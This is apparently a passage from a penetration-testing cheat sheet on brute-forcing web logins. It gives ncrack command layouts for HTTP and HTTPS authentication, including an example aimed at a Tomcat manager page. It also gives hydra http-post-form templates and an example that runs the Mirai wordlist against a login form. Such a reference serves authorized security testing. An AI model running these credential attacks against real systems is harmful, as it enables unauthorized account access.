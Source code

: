 ##### HTTP (single host) Command layout
```
ncrack --user/-U [USERNAME]/[USERNAME_FILE] --pass/-P [PASSWORD]/[PASSWORD_FILE] http://[IP_ADDRESS]:[PORT] -m http:path=[URL_PATH]
```
[USERNAME] and [PASSWORD] can also be comma-separated lists

##### HTTPS (single host) Command layout
```
ncrack --user/-U [USERNAME]/[USERNAME_FILE] --pass/-P [PASSWORD]/[PASSWORD_FILE] https://[IP_ADDRESS]:[PORT] -m https:path=[URL_PATH]
```
[USERNAME] and [PASSWORD] can also be comma-separated lists

##### Example command
```
ncrack -U userpass.txt -P userpass.txt https://192.168.57.2:8443 -m http:path=/manager/html
```

##### Other potentially-useful options
```
-f: Stop all testing when working credentials are found on any host
-v: verbose output
-vv: very verbose output
```


### HTTP Form Authenticaton (POST)
Web applications using login forms send user credentials using body parameters in a POST request (using the content-type "application/x-www-form-urlencoded")

**Tip:** Intercept a login request in Burp Suite in order to identify the target URL, POST data, and any other information.

#### hydra

##### HTTP command layout
```
hydra -l/-L [USERNAME]/[USERNAME_FILE] -p/-P [PASSWORD]/[PASSWORD_FILE] "http-post-form://[IP_ADDRESS]:[PORT][TARGET_URL_PATH]:[POST_DATA]:[FAILED_LOGIN_STRING]"
```
* [POST_DATA]: Request body contents, fill in insertion points for usernames with ^USER^ and passwords with ^PASS^.
* [FAILED_LOGIN_STRING]: String encountered in responses when login fails

##### HTTPS command layout
```
hydra -l/-L [USERNAME]/[USERNAME_FILE] -p/-P [PASSWORD]/[PASSWORD_FILE] "https-post-form://[IP_ADDRESS]:[PORT][TARGET_URL_PATH]:[POST_DATA]:[FAILED_LOGIN_STRING]"
```
* [POST_DATA]: Request body contents, fill in insertion points for usernames with ^USER^ and passwords with ^PASS^.
* [FAILED_LOGIN_STRING]: String encountered in responses when login fails

##### Example Command
```
hydra -L /usr/share/wordlists/metasploit/mirai_user.txt -P /usr/share/wordlists/metasploit/mirai_user.txt "http-post-form://192.168.88.20:8887/login:username=^USER^&password=^PASS^&LocalAuth=No&LocalAuthWithDomain=No&loginButton=Login:Username or Password is incorrect"
```
